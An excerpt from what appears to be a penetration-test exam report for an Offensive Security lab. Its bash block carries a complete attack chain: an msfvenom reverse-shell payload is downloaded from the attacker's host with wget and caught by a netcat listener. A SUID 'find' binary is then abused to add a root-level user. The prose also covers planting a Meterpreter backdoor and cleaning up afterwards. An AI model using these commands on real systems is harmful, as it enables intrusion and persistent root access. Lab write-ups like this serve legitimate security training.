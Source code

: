 ```bash
# attacker side
msfvenom -p linux/x86/shell_reverse_tcp LHOST=192.168.49.51 LPORT=80 -f elf -o rshell.elf
sudo python3 -m http.server 80 # shutdown after rshell was downloaded on the target

# target side
wget http://192.168.49.51/rshell.elf

# attacker side
sudo nc -nvlp 80

# target side
/tmp/rshell.elf # invoke the rshell
python -c 'import pty; pty.spawn("/bin/bash")'
find / -perm -u=s -type f 2> /dev/null # search for files with the SUID-bit
touch poo
find /tmp/poo -exec whoami \; # confirmed 'find' runs as root
find /tmp/poo -exec /usr/sbin/useradd -p $(openssl passwd -crypt password) -s /bin/bash -o -u 0 -g 0 victor \;
cat /root/proof.txt
```

## Maintaining Access
Maintaining access to a system is important to us as attackers, ensuring that we can get back into a system after it has been exploited is invaluable. The maintaining access phase of the penetration test focuses on ensuring that once the focused attack has occurred (i.e. a buffer overflow), we have administrative access over the system again. Many exploits may only be exploitable once and we may never be able to get back into a system after we have already per-formed the exploit. Victor added administrator and root level accounts on all systems compromised. In addition to the administrative/root access, a Metasploit meterpreter service was installed on the machine to en-sure that additional access could be established.

## Covering Tracks
The house cleaning portions of the assessment ensures that remnants of the penetration test are removed. Often fragments of tools or user accounts are left on an organizations computer which can cause security issues down the road. Ensuring that we are meticulous and no remnants of our penetration test are left over is important. After the trophies on both the lab network and exam network were completed, Victor removed all user accounts and passwords as well as the Meterpreter services installed on the system. Offensive Security should not have to remove any user accounts or services from the system.

# Additional Items
## Tools Used
* nmap
* psql
* nc
* msfvenom
